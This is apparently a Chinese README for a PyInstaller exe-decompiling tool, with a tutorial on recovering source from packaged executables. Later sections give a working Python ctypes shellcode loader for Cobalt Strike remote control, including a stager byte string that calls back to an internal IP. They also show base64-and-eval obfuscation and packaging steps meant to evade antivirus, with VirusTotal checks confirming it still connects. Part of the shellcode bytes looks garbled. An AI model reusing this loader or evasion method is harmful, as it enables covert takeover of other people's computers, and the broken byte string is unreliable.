pyinstaller打包的exe逆向还原项目

支持解密使用--key参数加密的exe

files提供了可以供pyinstaller打包的示例代码

Usage：

```
python3 reverse_pyexe c:\xx\xx\b.exe
```

结果输出到项目目录的b.exe_out路径下


参考链接： https://xz.aliyun.com/t/10450#toc-11

<br>
以下为精简出的原理，本程序参考部分
<br>
** 3. pyinstaller -F 参数反编译 **

注意：这里的exe文件反编译指的是对pyinstraller打包的文件进行反编译

**3.1 测试环境**

操作系统： windows 10  
python版本：python3.8.7  
16进制编辑器：010 editor  
exe反编译工具：pyinstxtractor.py  
pyc反编译工具：uncompyle6

**3.2 pyinstaller打包程序为exe**

首先写一个简单的python3脚本  
01_easy.py

*\# -\*- encoding: utf-8 -\*-*

*\# Time : 2021/06/17 10:45:45*

*\# Author: crow*

**import** time

**while 1:**

**print(**'hello world'**)**

time**.**sleep**(1)**

然后将该程序使用pyinstaller打包为exe文件  
pyinstaller -F 01_easy.py  
​

其中 参数 -F 是为了将程序打包为一个exe文件，而且不产生其他的文件  





打包完成之后，本地会生成一个dist的文件夹，在这个文件夹里就有一个打包好的exe文件。  





运行试试：  





此时程序运行正常，解下来就是反编译了。

**3.3 反编译_pyc**

针对pyinstaller打包之后的exe反编译工具：pyinstxtractor.py

pyinstaller extractor是可以提取出pyinstaller所创建的exe文件为pyc格式。

下载链接：  
<https://sourceforge.net/projects/pyinstallerextractor/>

将需要反编译的exe和pyinstxtractor.py放到同一个目录下直接运行

python pyinstxtractor.py 01_easy.exe



解密成功之后，会生成一个xxx.exe_extracted的文件夹  






**3.4 pyc到源码**

pyinstaller在打包的时候，会将pyc文件的前8个字节清除，所以后期需要自己添加上去，前四个字节为python编译的版本，后四个字节为时间戳。（四个字节的magic
number、四个字节的timestamp）  
所以在这里可以通过struct文件来获取其中的信息，再添加到01_easy文件里面去




因此这里将两个文件单独复制出来，通过16进制查看工具来查看下文件，Windows系统下可以使用winhex，mac系统下可以使用010
editor  





通过对比可以发现，struct比01_easy多了8个字节（这里只是做了一个粗略的解释，具体的原因肯定不是看出来的，有兴趣的师傅可以翻下源码）



因此这里可以将这些字节复制插入到01_easy中去。




在这里新建了一个文件，将两个进行结合  





再将文件保存为01_easy.pyc



得到pyc文件之后就比较容易后去源代码了，这里有两种方法，一个是在线反编译，另一种是使用uncompyle6（当然，这里的方法不止这两种）  
其中在线反编译地址为：[https://tool.lu/pyc](https://tool.lu/pyc)  
在线反编译效果：  





可以看到这个效果不是很好，有一部分代码并没有成功编译出来

那试试uncompyle6，目前可以在python3上使用pip的方式进行安装pip3 install
uncompyle6  





然后直接使用命令uncompyle6 01_easy.pyc  





可以将文件内容保存到一个文本中  
uncompyle6 01_easy.pyc \> 01_easy.py  


打开之后：  





**4. pyinstaller -F --key 参数反编译**

在使用pyinstaller的时候，可以使用--key参数对生成的exe进行加密，在使用这个参数的时候需要pycrypto库，可以通过pip的方式进行安装，但是保不齐安装的时候会出现一些问题，这里就不再对此展开讲解，直接进行使用。

**4.1 python版本的shellcode**

**什么是shellcode？**

在攻击中，shellcode是一段用于利用软件漏洞的有效负载，shellcode是16进制的机器码，以其经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。
可在寄存器eip溢出后，放入一段可让CPU执行的shellcode机器码，让电脑可以执行攻击者的任意指令。（来源：百度百科）  
​

下面的代码为最基础版本的shellcode，配合Cobalt Strike使用，可实现远控。

*\# -\*- encoding: utf-8 -\*-*

*\# Time : 2021/04/29 11:19:04*

*\# Author: crow*

**import** ctypes

shellcode **=** b""

shellcode **+=** b"\\x\\"

shellcode **=** bytearray**(**shellcode**)**

*\# 设置VirtualAlloc返回类型为ctypes.c_uint64*

ctypes**.**windll**.**kernel32**.**VirtualAlloc**.**restype **=**
ctypes**.**c_uint64

*\# 申请内存*

ptr **=**
ctypes**.**windll**.**kernel32**.**VirtualAlloc**(**ctypes**.**c_int**(0),**
ctypes**.**c_int**(**len**(**shellcode**)),** ctypes**.**c_int**(0x3000),**
ctypes**.**c_int**(0x40))**

*\# 放入shellcode*

buf **= (**ctypes**.**c_char **\***
len**(**shellcode**)).**from_buffer**(**shellcode**)**

ctypes**.**windll**.**kernel32**.**RtlMoveMemory**(**

ctypes**.**c_uint64**(**ptr**),**

buf**,**

ctypes**.**c_int**(**len**(**shellcode**))**

**)**

*\# 创建一个线程从shellcode防止位置首地址开始执行*

handle **=** ctypes**.**windll**.**kernel32**.**CreateThread**(**

ctypes**.**c_int**(0),**

ctypes**.**c_int**(0),**

ctypes**.**c_uint64**(**ptr**),**

ctypes**.**c_int**(0),**

ctypes**.**c_int**(0),**

ctypes**.**pointer**(**ctypes**.**c_int**(0))**

**)**

*\# 等待上面创建的线程运行完*

ctypes**.**windll**.**kernel32**.**WaitForSingleObject**(**ctypes**.**c_int**(**handle**),**ctypes**.**c_int**(-1))**

在这里直接使用以下参数进行加密混淆：  
​

pyinstaller -F --key crow123321 --noconsole py_shellcode.py  
​

其中--key之后的字符可以自定义  
​




**4.2 --key参数反编译**

同样的，将两个文件放在一起进行逆向得到pyc文件  
​




python pyinstxtractor.py py_shellcode.exe  
​




开始报错，但是依旧可以生成相应的文件夹  
​







这里使用同样的方法来对这两个文件进行测试，将新生成的文件保存为shellcode_key.pyc  
​



uncompyle6 shellcode_key.pyc



将文件重定向到py文件里面去  
​






打开之后发现，文件和未使用--key参数的效果基本没什么变化。  
--key的参数针对的只是依赖库进行了加密而已。  
​



**5. 正确使用--key参数进行加密免杀（测试时间：2021.06.17）**

总体上来讲，python打包的exe都是可以破解的，就算使用cython来写，依旧是可以破解的，只是时间问题而已，但是在这还是提出一些略微有效的方法（自欺欺人）。  
​

**5.1 不使用--key参数**

将所有的代码进行封装为一个函数，在一个新的文件中引用，其中py_shellcode_fuzz.py里的文件内容不变，只不过将其封装为一个函数，test.py来调用这个函数  
​




py_shellcode_fuzz.py：

*\# -\*- encoding: utf-8 -\*-*

*\# Time : 2021/06/17 17:12:27*

*\# Author: crow*

**import** ctypes**,**base64

**def** shell**():**

shellcode **=** b""

shellcode **+=**
b"\\xfc\\x48\\x83\\xe4\\xf0\\xe8\\xc8\\x00\\x00\\x00\\x41\\x51\\x41\\x50\\x52\\x51\\x56\\x48\\x31\\xd2\\x65\\x48\\x8b\\x52\\x60\\x48\\x8b\\x52\\x18\\x48\\x8b\\x52\\x20\\x48\\x8b\\x72\\x50\\x48\\x0f\\xb7\\x4a\\x4a\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\xe2\\xed\\x52\\x41\\x51\\x48\\x8b\\x52\\x20\\x8b\\x42\\x3c\\x48\\x01\\xd0\\x66\\x81\\x78\\x18\\x0b\\x02\\x75\\x72\\x8b\\x80\\x88\\x00\\x00\\x00\\x48\\x85\\xc0\\x74\\x67\\x48\\x01\\xd0\\x50\\x8b\\x48\\x18\\x44\\x8b\\x40\\x20\\x49\\x01\\xd0\\xe3\\x56\\x48\\xff\\xc9\\x41\\x8b\\x34\\x88\\x48\\x01\\xd6\\x4d\\x31\\xc9\\x48\\x31\\xc0\\xac\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\x38\\xe0\\x75\\xf1\\x4c\\x03\\x4c\\x24\\x08\\x45\\x39\\xd1\\x75\\xd8\\x58\\x44\\x8b\\x40\\x24\\x49\\x01\\xd0\\x66\\x41\\x8b\\x0c\\d2\\x4d\\x31\\xc0\\x4d\\x31\\xc9\\x41\\x50\\x41\\x50\\x41\\xba\\x3a\\x56\\x79\\xa7\\xff\\xd5\\xeb\\x73\\x5a\\x48\\x89\\xc1\\x41\\xb8\\x21\\x03\\x00\\x00\\x4d\\x31\\xc9\\x41\\x51\\x41\\x51\\x6a\\x03\\x41\\x51\\x41\\xba\\x57\\x89\\x9f\\xc6\\xff\\xd5\\xeb\\x59\\x5b\\x48\\x89\\xc1\\x48\\x31\\xd2\\x49\\x89\\xd8\\x4d\\x31\\xc9\\\\x29\\x37\\x43\\x43\\x29\\x37\\x7d\\x24\\x45\\x49\\x439\\x56\\x49\\x52\\x55\\x53\\x2d\\x54\\x45\\x53\\x54\\x2d\\x46\\x49\\x4c\\x45\\x21\\x24\\x48\\x2b\\x48\\x2a\\x00\\x35\\x4f\\x21\\x50\\x25\\x40\\x41\\x50\\x5b\\x34\\x5c\\x50\\x5a\\x58\\x35\\x34\\x28\\x50\\x5e\\x29\\x37\\x43\\x43\\x00\\x41\\xbe\\xf0\\xb5\\xa2\\x56\\xff\\xd5\\x48\\x31\\xc9\\xba\\x00\\x00\\x40\\x00\\x41\\xb8\\x00\\x10\\x00\\x00\\x41\\xb9\\x40\\x00\\x00\\x00\\x41\\xba\\x58\\xa4\\x53\\xe5\\xff\\xd5\\x48\\x93\\x53\\x53\\x48\\x89\\xe7\\x48\\x89\\xf1\\x48\\x89\\xda\\x41\\xb8\\x00\\x20\\x00\\x00\\x49\\x89\\xf9\\x41\\xba\\x12\\x96\\x89\\xe2\\xff\\xd5\\x48\\x83\\xc4\\x20\\x85\\xc0\\x74\\xb6\\x66\\x8b\\x07\\x48\\x01\\xc3\\x85\\xc0\\x75\\xd7\\x58\\x58\\x58\\x48\\x05\\x00\\x00\\x00\\x00\\x50\\xc3\\xe8\\x9f\\xfd\\xff\\xff\\x31\\x30\\x2e\\x32\\x31\\x31\\x2e\\x35\\x35\\x2e\\x32\\x00\\x00\\x00\\x00\\x00"

shellcode **=** bytearray**(**shellcode**)**

*\# 设置VirtualAlloc返回类型为ctypes.c_uint64*

ctypes**.**windll**.**kernel32**.**VirtualAlloc**.**restype **=**
ctypes**.**c_uint64

*\# 申请内存*

ptr **=**
ctypes**.**windll**.**kernel32**.**VirtualAlloc**(**ctypes**.**c_int**(0),**
ctypes**.**c_int**(**len**(**shellcode**)),** ctypes**.**c_int**(0x3000),**
ctypes**.**c_int**(0x40))**

*\# 放入shellcode*

buf **= (**ctypes**.**c_char **\***
len**(**shellcode**)).**from_buffer**(**shellcode**)**

string **=**
"""Y3R5cGVzLndpbmRsbC5rZXJuZWwzMi5SdGxNb3ZlTWVtb3J5KGN0eXBlcy5jX3VpbnQ2NChwdHIpLCBidWYsIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSkp"""

eval**(**base64**.**b64decode**(**string**))**

*\# 创建一个线程从shellcode防止位置首地址开始执行*

handle **=** ctypes**.**windll**.**kernel32**.**CreateThread**(**

ctypes**.**c_int**(0),**

ctypes**.**c_int**(0),**

ctypes**.**c_uint64**(**ptr**),**

ctypes**.**c_int**(0),**

ctypes**.**c_int**(0),**

ctypes**.**pointer**(**ctypes**.**c_int**(0))**

**)**

*\# 等待上面创建的线程运行完*

ctypes**.**windll**.**kernel32**.**WaitForSingleObject**(**ctypes**.**c_int**(**handle**),**ctypes**.**c_int**(-1))**

**if** \__name_\_ **==** '__main__'**:**

shell**()**

test.py

*\# -\*- encoding: utf-8 -\*-*

*\# Time : 2021/06/17 17:00:27*

*\# Author: crow*

**import** ctypes

**from** py_shellcode **import** shell

**if** \__name_\_ **==** '__main__'**:**

shell**()**

直接运行python py_shellcode_fuzz.py  







上线正常  
​

使用test.py调用该文件  
python test.py 上线正常  
​



然后再对文件进行打包  
首先使用pyinstaller直接打包  
pyinstaller -F --noconsole test.py






直接在dist文件夹下尝试获取pyc文件  
​

python pyinstxtractor.py test.exe  
​






将这两个文件单独拿出来，重复同样的操作




uncompyle6 get.pyc  




将文件保存起来  





这里就无法找到py_shell_fuzz中的内容了，那文件到底在哪呢？  
我们将反编译之后的PYZ-00.pyz_extracted文件夹找到了该pyc文件  
​





对该pyc文件直接进行解密：uncompyle6 py_shellcode_fuzz.pyc  





报错，这里使用010 editor分析下pyc文件  
​

通过与get.pyc对比发现，这里少了4个字节，因此需要对其进行补全  
​


将文件保存为new_py_shell.pyc  





再对其进行解密  
uncompyle6 new_py_shell.pyc  





再将文件保存起来  
uncompyle6 new_py_shell.pyc \> new_shell.py  





此时该文件被完全解密  




此时将文件使用VT查杀测试  
VT 查杀  
<https://www.virustotal.com/gui/file-analysis/MWM3N2M3NmExNjhlZmZkMDNmZDZkMTY2MzU1YWZjMzI6MTYyMzk0MTQwMQ==/detection>  
​




**5.2 pyinstaller使用--key参数打包exe**

在上文中pyinstaller中--key参数可以对依赖库进行了加密，因此在这里尝试使用--key参数重新打包一下  
​

pyinstaller -F --key crowcrow --noconsole test.py  
​




直接在dist文件夹下尝试获取pyc文件  
​

python pyinstxtractor.py test.exe  
​





这里该失败的失败，该成功的成功！  
​



同样的手法，对下面箭头的文件进行解密  


得到文件final.pyc  


uncompyle6 final.pyc


这里和上面的也是一样的，显示从py_shellcode_fuzz中调用了shell函数。那就去同样的位置去找py_shellcode_fuzz.pyc文件。  
​

但是这里可以看到py_shellcode_fuzz.pyc已经被加密变成了py_shellcode_fuzz.pyc.encrypted文件格式。  


将该文件使用010
editor打开，通过对比发现，该文件已经被加密，无法使用uncompyle6对其进行解密，当然这个文件依旧可以解密，但是解密成本要高于目前的手法。  


此时对原来的文件双击测试  


依旧可以上线（测试时间：2021.06.17）  
​


VT查杀：（测试时间：2021.06.17）  
​

<https://www.virustotal.com/gui/file/c2b081a565dbd4848eff43a9bae0da4da5cd8945f12b053470484cdb2df838fc/detection>  


2021.10.29查看：  


**5.3 总结**

从以上文章可以看出，将shellcode加载器写到一个文件中去，再使用另外一个脚本调用，在一定程度上可以免杀（随着时间推移，该方法逐渐失效），但是--key参数加密后的py_shellcode_fuzz.pyc.encrypted文件是无法解开的吗？  
理论上讲，该文件可以理解为勒索病毒加密之后的文件，如果key足够复杂，在还原文件上还是非常有难度的，但是在pyinstaller的作者并非将该文件写死，该文件还是能够进行还原的。

